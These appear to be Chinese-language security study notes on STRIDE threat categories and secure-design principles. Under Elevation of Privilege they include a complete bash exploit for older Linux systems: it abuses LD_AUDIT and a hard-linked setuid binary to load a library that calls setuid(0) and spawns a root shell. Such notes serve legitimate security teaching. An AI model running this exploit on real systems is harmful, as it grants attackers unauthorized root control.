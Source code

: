 &ensp;&ensp;管理安全：各种保障性的规范、流程、方法 
 
## 安全 


安全攻击： STRIDE 

&ensp;&ensp;Spoofing 假冒  

&ensp;&ensp;Tampering 篡改  

&ensp;&ensp;Repudiation 否认  

&ensp;&ensp;Information Disclosure 信息泄漏 

&ensp;&ensp;Denial of Service  拒绝服务 

&ensp;&ensp;Elevation of Privilege 提升权限 

```bash
老版本：普通用户提权
mkdir /tmp/wang
ln /bin/ping /tmp/wang/test
exec 3< /tmp/wang/test
rm -rf /tmp/wang
cat > /tmp/wang.c <<eof
void __attribute__((constructor)) init()
{
    setuid(0);
    system("/bin/bash");
}
eof

gcc -w -fPIC -shared -o /tmp/wang /tmp/wang.c
LD_AUDIT="$ORIGIN" exec /proc/self/fd/3 &> /dev/null
```
 
## 安全设计基本原则 


&ensp;&ensp;使用成熟的安全系统 

&ensp;&ensp;以小人之心度输入数据 

&ensp;&ensp;外部系统是不安全的 

&ensp;&ensp;最小授权 

&ensp;&ensp;减少外部接口 

&ensp;&ensp;缺省使用安全模式 

&ensp;&ensp;安全不是似是而非

&ensp;&ensp;从STRIDE思考 

&ensp;&ensp;在入口处检查 

&ensp;&ensp;从管理上保护好你的系统
